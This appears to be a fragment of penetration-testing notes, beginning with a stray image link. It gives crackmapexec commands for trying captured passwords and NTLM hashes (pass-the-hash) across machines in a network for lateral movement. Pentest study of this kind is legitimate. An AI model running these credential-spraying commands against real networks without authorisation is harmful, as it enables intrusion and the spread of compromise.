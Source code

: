 Try Credentials on multiple machines within the network:
apt install crackmapexec
crackmapexec <ip>/32 -u <username> -p <password> --local
crackmapexec <ip>/32 -u <username> -H '<hash>' --local